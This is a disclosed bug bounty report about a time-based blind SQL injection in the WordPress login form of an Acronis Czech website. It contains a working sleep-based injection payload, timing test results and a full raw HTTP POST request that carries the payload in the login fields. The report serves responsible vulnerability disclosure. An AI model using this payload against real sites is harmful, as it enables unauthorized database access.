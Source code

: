 # bypass sql injection #1109311

## Report Details
- **Report ID**: 1224660
- **URL**: https://hackerone.com/reports/1224660
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2021-06-12T04:15:02.478Z
- **Disclosed**: 2021-10-05T09:19:07.984Z

## Reporter
- **Username**: lu3ky-13
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
hello dear support

i have found SQL injection and bypass this case #1109311

Tests performed:

    0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 20.002
    0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 7.282
    0'XOR(if(now()=sysdate(),sleep(0),0))XOR'Z => 0.912
    0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 16.553
    0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z => 3.463
    0'XOR(if(now()=sysdate(),sleep(0),0))XOR'Z => 1.229
    0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 7.79
Proof
=======

{F1335267}

payload in photos
0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z

http request
=============

POST /wp-login.php HTTP/2
Host: www.acronis.cz
Cookie: PHPSESSID=49kn3h0ecv1urjd70jucn2j4gh; _fbp=fb.1.1623467463578.959472854; wordpress_test_cookie=WP+Cookie+check
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://www.acronis.cz/wp-login.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 717
Origin: https://www.acronis.cz
Upgrade-Insecure-Requests: 1
Te: trailers
Connection: close

log=0'XOR(if(now()=sysdate(),sleep(10),0))XOR'Z&pwd=0%27XOR%28if%28now%28%29%3Dsysdate%28%29%2Csleep%2815%29%2C0%29%29XOR%27Z+%3D%3E&g-recaptcha-response=03AGdBq25b-W6tugq-xMA5r4HA1FJJX1uDMve_1fZXKK0wtp2SxW745D7MwrwsXYpIQtRFHR4cMPxIWp5nTWRR89A4LGaom7kVvG7eMiPGe2z-rQIAM9oAd2Anp5_RBkg9tTndCyHlFh1cMUZKTtq-eF1yEI_Ixi7c6-xkDrqvs0Kb5DEZ_eu9SWNnm_evtbW0XXtz8pI7ipHNzw5icYUn6LmxkbxmyqfyQ5j4ZaPGnoPvtS2huSZKyN9RoVBL-v9UHs8Zdkj1dcVvVwurhVCNjBBFPTnZeA-D1iYSp_kqtfLzW1d84F_-9p09Tw9bp7qlirNa-UFSKnWxY27c6oAw5_p649TgBzLQMY4-bMK0_2bbqOv1RIy2vhqIXjpeh6r8l4-MAHHgllF0iW2ClpXKn5Y95DSg2muoc-zzdQ5xE2cpLL3Gw71nNITafbIC2QEKyyS-QBk8h1dn&wp-submit=P%C5%99ihl%C3%A1sit+se&redirect_to=https%3A%2F%2Fwww.acronis.cz%2Fwp-admin%2F&testcookie=1

sleep 10 it's response millis 12000 

Vulnerability Description


SQL injection (SQLi) refers to an injection attack wherein an attacker can execute malicious SQL statements that control a web application's database server.

## Impact

An attacker can use SQL injection to bypass a web application's authentication and authorization mechanisms and retrieve the contents of an entire database. SQLi can also be used to add, modify and delete records in a database, affecting data integrity. Under the right circumstances, SQLi can also be used by an attacker to execute OS commands, which may then be used to escalate an attack even further.

## Attachments
- 6666666666666.PNG
